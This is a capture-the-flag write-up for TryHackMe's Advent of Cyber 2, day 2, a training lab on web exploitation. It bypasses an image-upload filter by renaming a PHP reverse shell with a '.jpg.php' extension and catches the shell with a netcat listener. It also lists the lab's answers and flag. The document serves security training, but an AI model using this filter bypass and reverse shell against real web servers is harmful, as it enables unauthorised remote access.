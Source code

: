 # TRYHACKME: ADVENTOFCYBER2 - [DAY 2] WEB EXPLOITATION - The Elf Strikes Back!

TOPICS: GET Parameters and URLs, File Uploads, Reverse Shells, Reverse Shell Listeners

```
After your heroic deeds regaining control of the control centre yesterday, Elf McSkidy has decided to give you an important job to do.

"We know we've been hacked, so we need a way to protect ourselves! The dev team have set up a website for the elves to upload pictures of any suspicious people hanging around the factory, but we need to make sure it's secure before we add it to the public network. Please perform a security audit on the new server and make sure it's unhackable!"

You listen to the briefing and accept the task, pressing the deploy button to start the server as you do so.

McSkidy once again gives you a dossier of useful information to help you with your task, which you read as you wait for the server to boot:

Find a file upload point.
Try uploading some innocent files -- what does it accept? (Images, text files, PDFs, etc)
Find the directory containing your uploads.
Try to bypass any filters and upload a reverse shell.
Start a netcat listener to receive the shell
Navigate to the shell in your browser and receive a connection!

At the bottom of the dossier is a sticky note containing the following message:

For Elf McEager:
You have been assigned an ID number for your audit of the system: ODIzODI5MTNiYmYw . Use this to gain access to the upload section of the site.
Good luck!

You note down the ID number and navigate to the displayed IP address (MACHINE_IP) in your browser.
```

### QUESTIONS

What string of text needs adding to the URL to get access to the upload page?

```
?id= ODIzODI5MTNiYmYw
```

What type of file is accepted by the site?

Page source has '<input type=file id="chooseFile" accept=".jpeg, .jpg, .png">'

```
image
```

Bypass the filter and upload a reverse shell.  In which directory are the uploaded files stored?

cp /usr/share/webshells/php/php-reverse-shell.php php-reverrse-shell.jpg.php

```
/uploads/
```

Activate your reverse shell and catch it in a netcat listener!

```
sudo nc -lvnp 443
```

What is the flag in /var/www/flag.txt?

```
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
```
